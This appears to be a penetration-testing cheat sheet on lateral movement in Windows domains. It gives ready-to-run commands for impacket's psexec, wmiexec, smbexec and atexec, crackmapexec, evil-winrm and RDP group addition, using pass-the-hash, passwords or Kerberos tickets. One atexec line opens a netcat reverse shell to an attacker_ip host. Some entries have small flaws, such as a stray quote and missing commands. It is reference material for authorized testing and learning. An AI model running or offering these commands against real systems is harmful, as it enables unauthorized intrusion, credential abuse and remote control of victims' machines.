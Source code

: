 ```
```
**Lateral Move using impacket**
`impacket` contains a list of tools that can be helpful for performing lateral movement within a network. These tools use various techniques. The prerequisite input is a valid privileged user credentials (username and password/hash).
- PsExec
PsExec uses SMB with administrative privilege to upload a malicious executable on the target file, then create a service to run the malicious executable. 
```
psexec.py -hashes ':aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe' my.domain.com/pentestuser@10.X.X.X
psexec.py my.domain.com/pentestuser:MyPassWod@10.X.X.X
psexec.py my.domain.com/pentestuser@10.X.X.X -k -no-pass
psexec.py my.domain.com/pentestuser:MyPassWod@10.X.X.X -c powershell.exe
```
**Note**: PsExec is usually flagged by antivirus because of the malicious file uploaded on the target disk.
- WmiExec
WmiExec is a remote code execution tool that leverages Windows Management Instrumentation (WMI) to run commands on a target machine. 
```
wmiexec.py -hashes ':aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe' my.domain.com/pentestuser@10.X.X.X
wmiexec.py my.domain.com/pentestuser:MyPassWod@10.X.X.X
wmiexec.py my.domain.com/pentestuser@10.X.X.X -k -no-pass
```
**Note**: Unlike PsExec, it doesn’t create a service on the target system which makes it better for intrusion detection.
- SmbExec
It operates by creating a temporary service on the target machine to execute commands via cmd.exe, without dropping any binaries.
```
smbexec.py -hashes ':aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe' my.domain.com/pentestuser@10.X.X.X
smbexec.py my.domain.com/pentestuser:MyPassWod@10.X.X.X
smbexec.py my.domain.com/pentestuser@10.X.X.X -k -no-pass
```
- AtExec
It creates and runs an immediate scheduled task on a remote target via SMB in order to execute commands on a target system.
```
atexec.py my.domain.com/pentestuser:MyPassWod@10.X.X.X whoami
atexec.py -hashes  ':aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe' my.domain.com/pentestuser@10.X.X.X' whoami
atexec.py -no-pass -k my.domain.com/pentestuser@10.X.X.X 'powershell -c "nc.exe attacker_ip 4545 -e cmd.exe"'
```
- DcomExec
It is designed to remotely execute commands on a target system using DCOM (Distributed Component Object Model) and RPC (Remote Procedure Call).
- crackmapexec
```
crackmapexec smb 10.X.X.X -H ':aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe' -d 'my.domain.com' -u 'pentestuser' -x whoami
```
- Winrm
Windows Remote Management (WinRM) allows remote management and execution of commands on Windows machines, based on WS-Management. It uses ports 5985 and 5986 respectively for HTTP-based and HTTPS-based connection.
```
evil-winrm -i 10.X.X.X -u pentestuser -H 'aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe'
evil-winrm -i 10.X.X.X -u pentestuser -p mypassword
```
- RDP
Before being able to connect to host via RDP, the account should be added to the **Remote Desktop Users** group:
```
net localgroup "Remote Desktop Users" pentestuser /add
#connecting to RDP from Linux  computer
```